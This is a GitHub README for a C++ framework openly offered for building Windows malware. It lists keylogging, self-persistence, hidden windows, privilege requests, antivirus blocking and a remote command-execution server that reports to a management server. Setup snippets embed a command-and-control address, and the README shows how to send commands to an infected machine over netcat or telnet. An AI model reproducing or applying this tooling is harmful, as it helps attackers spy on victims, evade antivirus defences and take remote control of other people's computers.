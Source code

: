 # Richkware

[![Build status](https://ci.appveyor.com/api/projects/status/1tn6vedeaq0v27ra?svg=true)](https://ci.appveyor.com/project/richkmeli/richkware)

Framework for building Windows malware, written in C++.

## Description

It's a library of network and OS functions, that you can use to create malware.
The composition of these functions permits the application 
to assume behaviors referable to the following types of malware:

- Virus
- Worms
- Bot
- Spyware
- Keylogger
- Scareware

## Related Projects

[Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server): Service for management of hosts where is present a malware developed using **Richkware** framework.

[Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client): Client of **Richkware-Manager-Server**, that obtains list of all hosts and is able to send commands to do at each of them.

![](http://richk.altervista.org/RichkwareDiagram.svg)

## Documentation

|              | EN                          | IT                     |
|--------------|:------------------------------:|:------------------:|
| Presentation | [PDF](http://richk.me/Richkware/doc/EN/Slide.pdf)  | [PDF](http://richk.me/Richkware/doc/IT/Slide.pdf)     |
| Report       | [PDF](http://richk.me/Richkware/doc/EN/Report.pdf) | [PDF](http://richk.me/Richkware/doc/IT/Relazione.pdf) |

## Functions

### Network

- **Server** (*network.h*): module for the management of a multi-thread server, that allow to receive commands from Internet([Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client) or console) according to the specific protocol.
    - **Protocol** (*protocol.h*):
        1. **Remotely command execution** (ID 1)
        2. (work in progress)
- **Network** (*network.h*):
    - **RawRequest**: send a request to a server;
    - **UploadInfoToRichkwareManagerServer**: send information to [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)

### System

- **Storage** (*storage.h*):
    - **SaveSession** and **LoadSession**: save the application state(encrypted) to:
        - **Register** (SaveValueReg and LoadValueReg)
        - **File** (SaveValueToFile and LoadValueFromFile)
    - **Persistence**: install itself permanently in the system.
- **IsAdmin** and **RequestAdminPrivileges** (*richkware.h*): check and require administrator privileges;

- **StealthWindow** (*richkware.h*): hide applications;
- **OpenApp** (*richkware.h*): open arbitrary applications;
- **Keylogger** (*richkware.h*): stores in a file all pressed keys;
 - **BlockApps** e **UnBlockApps** (*blockApps.h*): block and unblock applications (antivirus, ...).

### Cryptography

- **Encrypt and Decrypt** (*crypto.h*): [RC4](https://en.wikipedia.org/wiki/RC4) (default), [Blowfish](https://en.wikipedia.org/wiki/Blowfish_(cipher)).
- **Encode and Decode** (*crypto.h*): [Base64](https://en.wikipedia.org/wiki/Base64) (defualt), [Hex](https://en.wikipedia.org/wiki/Hexadecimal#Transfer_encoding).

![](http://richk.altervista.org/RichkwareCryptographyDiagram.svg)

### Other

- **RandMouse** (*richkware.h*): move randomly the mouse cursor;
- **Hibernation** (*richkware.h*): hibernate system.

## Requirements
These are the base requirements to build and use Richkware:

- Make or CMake
- [MinGW](http://www.mingw.org/)

## Get Started
Open main.cpp, and create instance of Richkware.
### With [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)
if you deployed [RMS](https://github.com/richkmeli/Richkware-Manager-Server), you could use:

        int main() {
               Richkware richkware("Richk","DefaultPassword","192.168.99.100", "8080");
                ...
                return 0;
            }
        
that get secure key from Richkware-Manager-Server and set it as encryption key.
DefaultPass is used as temporary encryption key to ensure a safety communication with RMS and if this app cannot reach the RMS, then it will use DefaultPass as encryption key.


### Without [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)

Else, if you didn't deploy [RMS](https://github.com/richkmeli/Richkware-Manager-Server), you could use: 
         
     Richkware richkware("Richk","richktest");
         
 it uses "richktest" as encryption key.
     


## Compile

After **main.cpp** implementation, you can compile as follows.

### Using MinGW for Windows or MinGW cross compiler for Linux build environment

	make

### Using Microsoft C++ compiler (Visual Studio)
- C/C++ > Preprocessor > Preprocessor Definitions, add "\_CRT\_SECURE\_NO\_WARNINGS" 
- Linker > Input > Additional Dependencies, add "Ws2_32.lib"

## Examples of usage

### Remotely Command Execution

Call function **StartServer** in the main, it starts server on port 8000.

	int main () {
	    ...
		richkware.network.server.Start("8000");
        ...
	}

### Connect using [Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client)
In all systems where the Java Virtual Machine is installed, you can use [Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client)

### Connect using terminal in Unix systems

In Unix systems, you can use **netcat**.

	nc <serverName> 8000
	
after the answer from the server about establishment of connection, write:
    
    [[1]]COMMAND
    
where COMMAND is the command to execute to the pc where server is running.

### Connect using terminal in Windows

In Windows, you can use **telnet**.

	telnet <serverName> 8000

after the answer from the server about establishment of connection, write:
    
    [[1]]COMMAND
    
where COMMAND is the command to execute to the pc where server is running.
